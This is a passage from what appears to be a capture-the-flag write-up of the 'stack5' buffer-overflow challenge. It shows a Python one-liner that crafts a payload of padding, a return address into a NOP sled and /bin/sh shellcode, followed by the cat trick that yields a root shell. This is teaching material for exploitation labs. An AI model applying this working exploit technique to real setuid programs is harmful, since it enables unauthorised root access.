 From the output above, we can see that our EIP now points to the beginning of our "A" buffer, which is odd. Let's shift this up and point at "0xbffffcc0", one of the addresses within our NOP sled.

```
python -c 'print "A"*76 + "\xc0\xfc\xff\xbf" + "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > /tmp/stack5
```

This payload works in GDB (again) and running it outside of GDB produces no errors, no illegal instructions and no segfaults. It looks like we might have worked, but the shell instantly closed again. Let's try the cat trick for our final attempt:

```
$ whoami
user
$ (cat /tmp/stack5; cat ) | ./stack5
whoami
root
```

Awesome! That popped the challenge as we wanted and gave us our root shell!